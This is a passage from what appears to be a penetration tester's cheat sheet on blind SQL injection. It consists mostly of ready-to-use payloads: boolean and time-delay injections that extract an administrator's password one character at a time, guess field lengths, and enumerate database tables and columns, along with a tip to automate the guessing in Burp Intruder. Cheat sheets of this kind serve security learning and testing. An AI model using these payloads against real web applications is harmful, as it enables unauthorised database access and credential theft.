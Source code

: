 " or (select substr(group_concat(password),1,1) from code)='m'-- -
# In case it case insensitive
" or (select ascii(substr(group_concat(password),1,1)) from code)=109-- -
# BRUTEFORCE TABLE IF WE DO NOT KNOW IT (FUZZ W/ DIRECTORY MEDIUM BY REPLACING "TABLE")
" or select 1 from table-- - 
</code></pre>

### Blind

{% code overflow="wrap" fullWidth="true" %}
```bash
# Blind SQL injection
When it is vulnerable to SQLi, but its HTTP responses do not contain SQL query or any database errors.
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
#  When a request containing a TrackingId cookie is processed, the application uses a SQL query to determine whether this is a known user: 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
# Conditional responses
…xyz' AND '1'='1
…xyz' AND '1'='2
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
#  We can continue this process to systematically determine the full password for the Administrator user. 
# NOTE: The SUBSTRING function is called SUBSTR on some types of database


' AND '1'='1
' AND '1'='2
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a


# Boolean-based
SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--
admin' AND (length(database())) = 8 --
admin' AND (ascii(substr((select database()),2,1))) = 113 --
TIP: Pay attention to something on the website that shows/dissapear depending on if the query is true/false
' AND 1=1 -- //
' AND 2=1 -- -
?user=admin' AND IF (1=1, sleep(2),'false') -- //
' UNION SELECT 1,2,3 where database() like '%';--
' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sql_database' and table_name like 'a%';--
' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sql_database' and table_name='users' and column_name like 'a%';--
' and '1'='1
' and (select 'a' from users limit 1)='a
' and (select 'a' from users limit 1)='a
' and (select substring(username,1,1) from users where username='administrator')='a
' and (select substring(username,2,1) from users where username='administrator')='d
' and (select substring(password,1,1) from users where username='administrator')='a
If it seems to work > Burp > Intruder > Sniper to see if the first char is guessed and then work on a Python scripts
# Guess length of a field
' and (select 'a' from users where username='administrator' and length(password)>5)='a
```